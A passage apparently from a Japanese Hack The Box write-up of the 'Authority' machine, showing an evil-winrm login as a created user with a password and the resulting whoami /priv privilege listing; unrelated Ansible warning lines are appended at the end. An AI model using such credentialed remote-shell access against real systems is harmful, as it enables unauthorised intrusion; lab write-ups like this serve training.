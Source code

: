 WinRMシェルで管理者アクセスを取得
- 管理者権限が取得できた
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Authority]
└─$ evil-winrm -i 10.129.35.185 -u haxor -p '\Mk:d83O?Y.[@~m'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\haxor\Documents> whoami
htb\haxor
*Evil-WinRM* PS C:\Users\haxor\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
```

[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: No inventory was parsed, only implicit localhost is available